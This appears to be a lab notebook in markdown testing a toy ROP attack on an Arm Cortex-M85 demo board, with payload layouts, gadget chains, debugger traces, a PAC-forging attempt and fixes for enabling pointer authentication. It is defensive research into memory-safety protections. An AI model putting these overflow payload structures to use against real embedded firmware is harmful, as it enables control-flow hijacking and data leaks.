



# ROP analysis

## Without PAC

```c
/*
 * ROP Attack 返回地址改写详解：
 * 
 * 正常情况下的栈布局（vulnerable_function被调用时）：
 * 
 * 高地址
 * ┌─────────────────────────┐
 * │  demo_rop_attack的栈帧  │
 * ├─────────────────────────┤
 * │  返回地址（LR）         │  ← 应该返回到demo_rop_attack中调用vulnerable_function之后的位置
 * ├─────────────────────────┤
 * │  保存的寄存器           │
 * ├─────────────────────────┤
 * │  buffer[0-15]           │  ← buffer的起始位置
 * │  (16 bytes)             │
 * └─────────────────────────┘
 * 低地址
 * 
 * 
 * ROP攻击后的栈布局：
 * 
 * 高地址
 * ┌─────────────────────────┐
 * │  demo_rop_attack的栈帧  │
 * ├─────────────────────────┤
 * │  gadget_set_flag地址    │  ← 被攻击者改写！原本应该是返回到demo_rop_attack
 * ├─────────────────────────┤  ← 现在返回时会跳转到gadget_set_flag
 * │  gadget_leak_secret地址 │  ← 当gadget_set_flag执行完return时，会跳转到这里
 * ├─────────────────────────┤
 * │  gadget_dangerous_op地址│  ← 继续链式执行
 * ├─────────────────────────┤
 * │  normal_function地址    │  ← 最后跳转到这里（可选）
 * ├─────────────────────────┤
 * │  AAAAAAAAAAAAAAAA...    │  ← strcpy溢出的数据，覆盖了buffer和返回地址
 * └─────────────────────────┘
 * 低地址
 * 
 * 
 * 详细步骤：
 * 
 * 1. 原始返回地址是什么？
 *    - 是 demo_rop_attack 函数中调用 vulnerable_function() 之后的下一条指令地址
 *    - 例如：0x08001234（假设的地址）
 * 
 * 2. 应该改写成什么地址？
 *    - 改写成第一个gadget的地址，例如 gadget_set_flag 的地址
 *    - 例如：0x08001100（假设的gadget_set_flag地址）
 * 
 * 3. ROP链的执行流程：
 *    a) vulnerable_function 执行 strcpy，溢出覆盖返回地址
 *    b) vulnerable_function 执行 return 指令
 *    c) CPU从栈上pop返回地址到PC → 跳转到 gadget_set_flag
 *    d) gadget_set_flag 执行完毕，执行 return
 *    e) CPU再次pop栈上的下一个地址 → 跳转到 gadget_leak_secret
 *    f) 以此类推，形成gadget链
 * 
 * 4. 为什么PAC能防御？
 *    - 正常情况：demo_rop_attack调用vulnerable_function时，LR被签名
 *      签名后的LR = sign(返回地址, SP, 密钥)
 *    - 攻击时：strcpy覆盖的是未签名的地址
 *    - 返回时：AUTIASP指令验证签名失败 → 触发异常
 */

// 更新注释以反映实际的攻击流程：
    /*
     * ROP Attack Explanation:
     * 
     * 1. Attacker overflows the buffer in vulnerable_function
     * 2. The overflow overwrites the saved return address on the stack
     *    - 原本的返回地址：应该返回到 demo_rop_attack 中的下一条指令
     *    - 被改写成：gadget_set_flag 的地址（第一个ROP gadget）
     * 3. Instead of returning to demo_rop_attack, execution jumps to gadget_set_flag
     * 4. After gadget_set_flag returns, stack上的下一个地址是 gadget_leak_secret
     * 5. This creates a "ROP chain" executing unauthorized operations:
     *    vulnerable_function → gadget_set_flag → gadget_leak_secret → gadget_dangerous_op
     * 
     * Without PAC: The CPU has no way to verify if the return address
     *              has been tampered with, so the attack succeeds.
     * 
     * With PAC:    The return address would be signed (authenticated),
     *              and tampering would cause an authentication fault.
     */
```

## With PAC Test of trival ROP attack

### Output

```shell
=== DEMO 1: Normal Execution ===

[VULN] Executing memcpy (6 bytes)...
[VULN] Buffer at: 0x2200764C
[VULN] Overflow complete, returning...

[NORMAL] This is a normal function call
[NORMAL] Privileged flag value: 0x00000000
[RESULT] Privileged flag: 0x00000000 (should be 0)


=== DEMO 2: ROP Attack (without PAC) ===
[ATTACK] Preparing ROP chain...

[ATTACK] ROP Chain:
  [0] gadget_set_flag:     0x0200381D
  [1] gadget_leak_secret:  0x020037E5
  [2] gadget_dangerous_op: 0x0200372D
  [3] gadget_exit:         0x0200376D

[ATTACK] Payload structure:
  Bytes [00-15]: Buffer (16 bytes)
  Bytes [16-19]: Overwrite r4
  Bytes [20-23]: Overwrite r5
  Bytes [24-27]: Overwrite r6
  Bytes [28-31]: Overwrite pc with gadget_set_flag
  Bytes [32-35]: gadget_leak_secret
  Bytes [36-39]: gadget_dangerous_op
  Bytes [40-43]: gadget_exit

[ATTACK] Launching attack...
================================================

[VULN] Executing memcpy (44 bytes)...
[VULN] Buffer at: 0x2200764C
[VULN] Overflow complete, returning...

[GADGET] Secret leaked: 0x12345678
[GADGET] Executing dangerous operation!
[GADGET] ROP chain completed. Changed privileged flag: 0x00000000
```

### Debug

After entering `vulnerable_function`:

```
0x0200A830 F3AF800D  PACBTI   r12,lr,sp   <--- line 1
0x0200A834 B570      PUSH     {r4-r6,lr}
0x0200A836 F84DCD04  PUSH     {r12}
0x0200A83A B085      SUB      sp,sp,#0x14
```

Before/After line 1:
```
LR: 0x02003AB1
SP: 0x22007670
R12: 0x00000000
```

Before existing `vulnerable_function`:
```
0x0200A860 B005      ADD      sp,sp,#0x14
0x0200A862 F85DCB04  POP      {r12}        <--- pop 0x414141 to r12
0x0200A866 E8BD4070  POP      {r4-r6,lr}   <--- 0x41414141 0x41414141 0x0200381d [0x020037e5] 
0x0200A86A F3AF802D  AUT      r12,lr,sp    <--- line 2
0x0200A86E 4770      BX       lr
```

Before line 2:
```
LR: 0x020037e5
SP: 0x22007670
R12: 0x41414141
```


It doesn't alert any fault, then it still jumps to another gadget.
The flag is not changed, only because after using PACBTI, one more value is pushed on stack and the offset skip the first gadget.


### Why there is **Stack Layout Shift (4-byte offset change)**
   - **Without PACBTI**: Prologue = `PUSH {r4-r6, lr}` (+16 bytes) + `SUB sp, #0x14` for locals.
     - Saved stack (from top): r4, r5, r6, **LR** (clean).
     - Your 44-byte payload perfectly overwrites: r4/r5/r6/LR = chain start → **full ROP executes**.
   - **With PACBTI**: Extra `PACBTI r12, lr, sp` + `PUSH {r12}` (signed LR temp, +4 bytes).
     - Saved stack (from top, after locals): **signed LR** (r12), r4, r5, r6, **clean LR**.
     - Buffer overflow now hits:
       | Offset | Payload Label | Stack Slot Overwritten |
       |--------|---------------|------------------------|
       | 16-19  | "r4"         | **signed LR**         |
       | 20-23  | "r5"         | r4                    |
       | 24-27  | "r6"         | r5                    |
       | 28-31  | "pc" (g1)    | r6                    |
       | **32-35** | **g2 (leak)** | **clean LR**       |
       | 36-39  | g3           | caller stack          |
       | 40-43  | g4           | caller stack          |
     - Epilogue pops: `r12` = garbage ("r4"), `lr` = **g2 leak** (clean).
     - **Result**: Jumps to **leak gadget** (0x020037E5), skips g1 (`set_flag`), flag unchanged.
     - **No full ROP, but partial success** (leak + maybe dangerous).

### Why PAC not working



### Fix

We can see PACEN (Pointer Authentication Enable) and BTIEN (Branch Target Identification Enable) bits in the CONTROL register (or CONTROL_NS/CONTROL_S for Secure/Non-Secure modes). By default, these are 0 on reset, meaning the features are disabled even if the hardware supports them. When disabled, PAC/AUT instructions behave as NOPs (no-ops), providing zero protection and no faults on mismatched authentication—your ROP succeeds silently because the hardware ignores the checks. BTI similarly won't enforce landing pads (e.g., no INVSTATE faults on invalid branches).

PAC_KEY at 0: This refers to the Pointer Authentication keys (e.g., PAKeyLo/PAKeyHi system registers, viewable in Keil's System Viewer under CPU or debug peripherals). Keys default to 0 on reset, which is insecure—attackers can predict/compute PAC values without a secret key, rendering authentication ineffective even if enabled. In a simulator or real hardware, this won't cause faults but defeats the purpose of PAC.

#### Manually edit the PACEN and BTIEN

We can manually edit the PACEN and BTIEN to `0x01` during debug mode, before target function executing.

> Note that, for our tests so far, BTIEN is not really relevant

Now,

```
0x0200A830 F3AF800D  PACBTI   r12,lr,sp      <--- line 1
0x0200A834 B570      PUSH     {r4-r6,lr}
0x0200A836 F84DCD04  PUSH     {r12}
0x0200A83A B085      SUB      sp,sp,#0x14
```

After line 1:
```
R12: 0x741e09d4
LR: 0x0200a834
SP: 0x22007670
```

```
0x0200A860 B005      ADD      sp,sp,#0x14
0x0200A862 F85DCB04  POP      {r12}         
0x0200A866 E8BD4070  POP      {r4-r6,lr}
0x0200A86A F3AF802D  AUT      r12,lr,sp     <--- line 2
0x0200A86E 4770      BX       lr
```

Before line 2
```
R12: 0x41414141
LR: 0x020037e5
SP: 0x22007670
```

After line 2, it jump to `HardFault_Handler` directly

And return this:
```
psr: 0x61100000
r00: 0x00000028
r01: 0xc0010000
r02: 0x02005abd
r03: 0x00000028
r04: 0x41414141
r05: 0x41414141
r06: 0x0200381d
r07: 0x020037e5
r08: 0x0200c8db
r09: 0x22007670
r10: 0x220005c8
r11: 0xdeadbeef
r12: 0x41414141
 lr: 0x020037e5
 pc: 0x0200a86a
hard fault on thread: main

rt_thread_ thread       pri  status      sp     stack size max used left tick  error
---------- ------------ ---  ------- ---------- ----------  ------  ---------- ---
0x22007908 tshell        20  ready   0x00000044 0x00001000    01%   0x0000000a OK
0x22000798 tidle0        31  ready   0x00000044 0x00000100    26%   0x00000020 OK
0x22000264 timer          4  suspend 0x00000044 0x00000200    13%   0x00000009 OK
0x22006e10 main          10  running 0x00000044 0x00000800    16%   0x00000005 OK
FPU active!
usage fault:
SCB_CFSR_UFSR:0x02 INVSTATE
```

Even though it doesn't explicitly say the program violates PAC, but the fact that
it doesn't bypass `AUT` is clear.

#### Other potential solutions(TODO):

1. **Enable PAC and BTI in Code**:
   - Add startup code (e.g., in SystemInit or main) to set the enables:
     ```
     // Assuming Non-Secure mode; adjust for Secure if using TrustZone
     uint32_t control = __get_CONTROL();
     control |= (1 << 7);  // Set PACEN (bit 7 in CONTROL)
     control |= (1 << 8);  // Set BTIEN (bit 8 in CONTROL)
     __set_CONTROL(control);
     __ISB();  // Instruction barrier to apply changes
     ```
   - This must be done at the appropriate privilege level (e.g., from privileged mode). Rebuild and re-run your test—now PAC/AUT should actively compute/verify instead of NOP.

Check this file: `\vision_board_ROP\ra\arm\CMSIS_5\CMSIS\Core\Include\core_cm85.h`
```c
typedef union
{
  struct
  {
    uint32_t nPRIV:1;                    /*!< bit:      0  Execution privilege in Thread mode */
    uint32_t SPSEL:1;                    /*!< bit:      1  Stack-pointer select */
    uint32_t FPCA:1;                     /*!< bit:      2  Floating-point context active */
    uint32_t SFPA:1;                     /*!< bit:      3  Secure floating-point active */
    uint32_t BTI_EN:1;                   /*!< bit:      4  Privileged branch target identification enable */
    uint32_t UBTI_EN:1;                  /*!< bit:      5  Unprivileged branch target identification enable */
    uint32_t PAC_EN:1;                   /*!< bit:      6  Privileged pointer authentication enable */
    uint32_t UPAC_EN:1;                  /*!< bit:      7  Unprivileged pointer authentication enable */
    uint32_t _reserved1:24;              /*!< bit:  8..31  Reserved */
  } b;                                   /*!< Structure used for bit  access */
  uint32_t w;                            /*!< Type      used for word access */
} CONTROL_Type;

/* CONTROL Register Definitions */
#define CONTROL_UPAC_EN_Pos                 7U                                            /*!< CONTROL: UPAC_EN Position */
#define CONTROL_UPAC_EN_Msk                (1UL << CONTROL_UPAC_EN_Pos)                   /*!< CONTROL: UPAC_EN Mask */

#define CONTROL_PAC_EN_Pos                  6U                                            /*!< CONTROL: PAC_EN Position */
#define CONTROL_PAC_EN_Msk                 (1UL << CONTROL_PAC_EN_Pos)                    /*!< CONTROL: PAC_EN Mask */

#define CONTROL_UBTI_EN_Pos                 5U                                            /*!< CONTROL: UBTI_EN Position */
#define CONTROL_UBTI_EN_Msk                (1UL << CONTROL_UBTI_EN_Pos)                   /*!< CONTROL: UBTI_EN Mask */

#define CONTROL_BTI_EN_Pos                  4U                                            /*!< CONTROL: BTI_EN Position */
#define CONTROL_BTI_EN_Msk                 (1UL << CONTROL_BTI_EN_Pos)                    /*!< CONTROL: BTI_EN Mask */

```


2. **Set Non-Zero PAC Keys**:
   - For testing, write fixed non-zero values (in production, use random/TRNG):
     ```
     // Example: Set PAKeyLo/PAKeyHi (use MRS/MSR or system register access)
     __MSR(PAKeyLo, 0x12345678);  // Low 64 bits
     __MSR(PAKeyHi, 0x9ABCDEF0);  // High 64 bits (or upper 32 for M-profile)
     __ISB();
     ```
   - Confirm in Keil debug: Keys should now show non-zero. With keys=0, even enabled PAC offers no security (predictable hashes).

Check file `E:\projects\RA8D1_Chip_Game\Keil\projects\vision_board_ROP\ra\arm\CMSIS_5\CMSIS\Core\Include\pac_armv81.h`:

```c
#if (defined (__ARM_FEATURE_PAUTH) && (__ARM_FEATURE_PAUTH == 1))

/**
  \brief   read the PAC key used for privileged mode
  \details Reads the PAC key stored in the PAC_KEY_P registers.
  \param [out]    pPacKey  128bit PAC key
 */
__STATIC_FORCEINLINE void __get_PAC_KEY_P (uint32_t* pPacKey) {
  __ASM volatile (
  "mrs   r1, pac_key_p_0\n"
  "str   r1,[%0,#0]\n"
  "mrs   r1, pac_key_p_1\n"
  "str   r1,[%0,#4]\n"
  "mrs   r1, pac_key_p_2\n"
  "str   r1,[%0,#8]\n"
  "mrs   r1, pac_key_p_3\n"
  "str   r1,[%0,#12]\n"
  : : "r" (pPacKey) : "memory", "r1"
  );
}
```

3. **Update Toolchain for Better Code Gen**:
   - Stick with Arm Compiler 6 in Keil, but update to the latest MDK version (5.42+ as of 2025) for improved Cortex-M85 support, including better PACBTI simulation and potential fixes.
   - Alternatively, switch to GCC (arm-none-eabi-gcc 13+) via Keil's compiler selector or external build:
     ```
     arm-none-eabi-gcc -mcpu=cortex-m85 -mbranch-protection=pacbti ...
     ```
     This generates tighter code (e.g., PACIASP/AUTIASP for in-place signing without extra pushes), eliminating the stack shift and bypass in your ROP. Import the GCC-built ELF into Keil for debug.

4. **Simulator Configuration in Keil**:
   - In Project Options > Debug > Use Simulator, ensure the device is set to Cortex-M85 with PACBTI (check Parameter File if needed).
   - If using hardware (e.g., ULINKpro), confirm the board supports M85 with PACBTI; simulation might need "--cpu Cortex-M85" in command-line debug.
   - In debug session, use System Viewer > CPU to monitor CONTROL bits and keys—set breakpoints after enables to verify.

## With PAC Test - Fake R12

Try to find some the patterns - because it is not real randomization

#### Debug of trival ROP attack

Normal:

line 1 PACBTI:

LR: 0x02003957
SP: 0x22007670

Then R12 - FEF778AE


ROP:
line 1:
```
LR: 0x02003AB1
SP: 0x22007670
```
Then R12 - 0x741e09d4

This is the same as the last time computation - code reuse attack

So, the new ROP attack is clear that:

#### Fake R12

Because the r12 is pushed first to the stack

```
0x0200A860 B005      ADD      sp,sp,#0x14
0x0200A862 F85DCB04  POP      {r12}
0x0200A866 E8BD4070  POP      {r4-r6,lr}
0x0200A86A F3AF802D  AUT      r12,lr,sp
0x0200A86E 4770      BX       lr
```

so we need a new payload as: `'A' * 16 + '0x741e09d4' + 'A' * 12 + ROP chain`,
with little endian, so the '0x741e09d4' should be put as 'd4 09 e0 74'.

#### Not really 1

Because the code is modified, so the `LR` at line 1 will be not always the same.
For the new attack program, it becomes to `0x02003AB3`

so the correct PAC value also changes to `0xf4e3f83a`. We need to use this as the new payload
to overwrite R12.



#### Not really 2

```shell
=== DEMO 3: ROP Attack (with PAC - Fake R12) ===
[ATTACK] Preparing ROP chain...

[ATTACK] ROP Chain:
  [0] gadget_set_flag:     0x02003805
  [1] gadget_leak_secret:  0x020037CD
  [2] gadget_dangerous_op: 0x02003715
  [3] gadget_exit:         0x02003755
```



```
0x0200A860 B005      ADD      sp,sp,#0x14
0x0200A862 F85DCB04  POP      {r12}        <--- pop 0xf4e3f83a to r12
0x0200A866 E8BD4070  POP      {r4-r6,lr}   <--- 0x41414141 0x41414141 0x41414141 [0x02003805] 
0x0200A86A F3AF802D  AUT      r12,lr,sp    <--- line 2
0x0200A86E 4770      BX       lr
```

So the overwriting is as expected, but we forget one thing that, the line 2 `AUT` need to match the PAC
for `lr` and `sp`. Now the PAC value is `0xf4e3f83a = PAC(0x02003AB3, 0x22007670)`, but our new lr is `0x02003805`. This `AUT` will surely fail.


